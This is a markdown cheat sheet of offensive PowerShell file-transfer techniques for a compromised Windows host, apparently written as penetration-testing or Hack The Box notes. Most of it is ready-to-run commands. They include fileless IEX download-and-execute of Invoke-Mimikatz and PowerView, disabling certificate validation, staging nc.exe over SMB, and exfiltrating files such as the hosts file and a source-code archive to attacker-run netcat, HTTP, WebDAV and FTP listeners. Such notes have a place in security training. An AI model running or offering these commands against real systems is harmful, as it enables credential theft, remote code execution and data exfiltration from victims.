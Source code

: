 # Content
- [Download Operations](#download-operations)
  - [PowerShell Base64 Encode & Decode](#1-powershell-base64-encode--decode)
  - [PowerShell HTTP Downloads](#2-powershell-http-downloads)
  - [PowerShell SMB Downloads](#3-powershell-smb-downloads)
  - [PowerShell FTP Downloads](#4-powershell-ftp-downloads)
- [Upload Operations](#upload-operations)
  - [PowerShell Base64 Encode & Decode](#1-powershell-base64-encode--decode-1)
  - [PowerShell HTTP Upload](#2-powershell-http-upload)
  - [PowerShell SMB Uploads](#3-powershell-smb-uploads)
  - [PowerShell FTP Uploads](#4-powershell-ftp-uploads)


# Download Operations

## 1) PowerShell Base64 Encode & Decode
if you have access to terminal using a webshell you can 


- base64 a file that you want to transfer
```bash
$ cat backdoor| base64 -w 0 ; echo
YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo=


$ md5sum shell
2eebc05b20651f70efb2d195bbdaf2c2  shell
```


- paste it in powershell
```powershell
PS C:\user> [IO.File]::WriteAllBytes("C:\Users\public\Desktop\testing\backdoor",[Convert]::FromBase64String("YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo="))


PS C:\user> Get-FileHash .\backdoor -Algorithm MD5

Algorithm       Hash                                                                   Path                                 
---------       ----                                                                   ----                                 
MD5             2EEBC05B20651F70EFB2D195BBDAF2C2  
```



**Note:** While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.

## 2) PowerShell HTTP Downloads

### 1) PowerShell DownloadFile Method
```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

### 2) PowerShell DownloadString - Fileless Method
- `IEX` It is a cmdlet used to evaluate or execute a string as a PowerShell command.
```powershell
PS C:\user> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

PS C:\user> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
### 3) PowerShell Invoke-WebRequest
```powershell
PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -UseBasicParsing | IEX
```

if the certificate is not trusted. We can bypass that error with the following command:
```powershell
PS C:\user> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
## 3) PowerShell SMB Downloads
- create smbserver
```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare

sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare -user test -password test
```
- copy files using powershell
```powershell
PS C:\user> copy \\192.168.220.133\share\nc.exe


PS C:\user> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

PS C:\user> copy n:\nc.exe
        1 file(s) copied.
```
## 4) PowerShell FTP Downloads

```bash
sudo python3 -m pyftpdlib --port 21
```

- Download Using PowerShell
```powershell
PS C:\user> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

- Download using Command File for the FTP Client and Download the Target File
```powershell
C:\user> echo open 192.168.49.128 > ftpcommand.txt
C:\user> echo USER anonymous >> ftpcommand.txt
C:\user> echo binary >> ftpcommand.txt
C:\user> echo GET file.txt >> ftpcommand.txt
C:\user> echo bye >> ftpcommand.txt
C:\user> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\user>more file.txt
This is a test file
```

# Upload Operations

## 1) PowerShell Base64 Encode & Decode

- encode file
```powershell
PS C:\user> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

PS C:\user> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D
```
- paste it to decode
```bash
KiroMaged@htb[/htb]$ echo <base64>| base64 -d > hosts
```

## 2) PowerShell HTTP Upload

### Invoke-FileUpload to Python Upload Server
- listen 
```bash
$ python3 -m uploadserver 9999
File upload available at /upload
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...

```
-  send req
```powershell
PS C:\user> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\user> Invoke-FileUpload -Uri http://172.24.121.19:9999/upload -File C:\Windows\System32\drivers\etc\hosts

```

### PowerShell Base64 Web Upload
- listen  
```bash
$  nc -lvnp 8000
listening on [any] 8000 ...
```
-  send req
```powershell
PS C:\user> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\user> Invoke-WebRequest -Uri http://172.24.121.19:8000/ -Method POST -Body $b64
```

## 3) PowerShell SMB Uploads

- most encrionment will prevent outgoing smb connection so we can use The WebDAV protocol , which enables a webserver to behave like a fileserver, supporting collaborative content authoring. WebDAV can also use HTTPS.

- other than that we can use the same method in download section
```bash
$ sudo pip install wsgidav cheroot
$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```powershell
PS C:\user> dir \\192.168.49.128\DavWWWRoot

PS C:\user> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

## 4) PowerShell FTP Uploads

```bash 
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

```powershell
PS C:\user> echo open 192.168.49.128 > ftpcommand.txt
PS C:\user> echo USER anonymous >> ftpcommand.txt
PS C:\user> echo binary >> ftpcommand.txt
PS C:\user> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
PS C:\user> echo bye >> ftpcommand.txt
PS C:\user> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```
